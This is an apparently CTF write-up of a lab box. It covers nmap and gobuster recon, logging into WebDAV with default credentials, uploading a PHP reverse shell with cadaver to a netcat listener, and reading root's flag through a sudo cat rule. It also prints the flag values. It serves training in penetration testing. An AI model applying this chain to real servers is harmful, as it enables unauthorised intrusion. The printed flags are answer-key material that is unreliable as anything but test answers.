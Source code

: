 ##### Have a trouble at reconnaissance phase and searching for help :((
## SSH Scan

```bash
sudo nmap -sVC -O -nP 10.10.132.50

Nmap scan report for 10.10.132.50
Host is up (0.29s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/16%OT=80%CT=1%CU=40883%PV=Y%DS=3%DC=I%G=Y%TM=673
OS:895CB%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=100%TI=Z%CI=I%II=I%TS=8)
OS:SEQ(SP=FC%GCD=2%ISR=100%TI=Z%CI=I%II=I%TS=8)OPS(O1=M509ST11NW7%O2=M509ST
OS:11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST11)WIN(W1=6
OS:8DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M
OS:509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=54CA%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## Disconvery

```bash
gobuster dir -u http://10.10.132.50 -w ~/SecLists/Discovery/Web-Content/common.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.50
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/m1nh/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/.htaccess            (Status: 403) [Size: 296]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 300]
/webdav               (Status: 401) [Size: 459]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

Found a path `/webdav` required authentication.
## Research about `webdav`

WebDAV is **an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections**.

Access to the path `/webdav` it required username and password.
By searching about `webdav default credential` i found a [page](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html), that tell me default credential and it work!
	username: wampp
	password: xampp
There is a file that contain a username and a hashed password. Since from the `Nmap` scan result, there is no `SSH` port opening, so i think cracking this password is not worth anymore.

From the [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) site, I saw the `cadevar` tool is used to upload file via `webdav`. 

## Create a reverse shell

Start a `netcat` listener:
```bash
nc -nlvp 4444
```

Using [RevShells](https://www.revshells.com/) page to create a PHP file with payload and using `cadevar` tool to upload the exploit code to the server.

## Get Flag

After `netcat` connect to the target shell.

Found `user.txt` flag in `/home/merlin` path:
	449b40fe93f78a938523b7e4dcd66d2a

Using `sudo -l` command, the output show that the current user can run `cat` binary as `root` user without enter password. 

Since `cat` binary not have option to execute with other command and the `root.txt` flag is normally place inside the `/root` path, so run the command to get `root.txt` flag:
```bash
sudo /usr/bin/cat /root/root.txt

#Output: 101101ddc16b0cdf65ba0b8a7af7afa5
```

## Note
The exploitation can be using `metasploit` with `exploit/windows/http/xampp_webdav_upload_php` module as same result.